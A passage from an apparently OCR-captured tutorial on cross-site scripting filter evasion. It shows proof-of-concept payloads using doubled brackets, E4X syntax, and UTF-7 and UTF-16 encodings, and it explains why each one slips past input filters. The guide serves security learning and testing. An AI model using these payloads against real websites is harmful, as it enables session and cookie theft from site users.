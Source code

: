 * `%u00AB` and `%u00BB` are **double-angle brackets**.
* Some **frameworks auto-convert** them to `<` and `>`, enabling the attack.

---

### Superfluous brackets:

```html
<<script>alert(1)//<</script>
```

* Browsers can recover from malformed tags like `<<script>`.
* Filters might reject `<script>` but ignore the double bracket syntax.

---

### E4X (ECMAScript for XML):

```html
<script<{alert(1)}/></script>
```

* Weird syntax that **older Firefox versions** parsed and executed.
* Useful when targeting **browser-specific vulnerabilities**.

---

## 🔹 9. **Character Sets and Encodings**

### Goal:

Deliver payloads encoded in alternative charsets (like UTF-7 or UTF-16) that the browser interprets correctly, but **filters don’t recognize**.

#### Example:

UTF-7:

```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```

UTF-16:

```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00
```

### ✅ Why it works:

* Filters expecting UTF-8 or ASCII won't decode UTF-7/UTF-16 correctly.
* But browsers often **trust charset hints** from HTTP headers or `<meta charset=...>` and will interpret the payload as script.

---
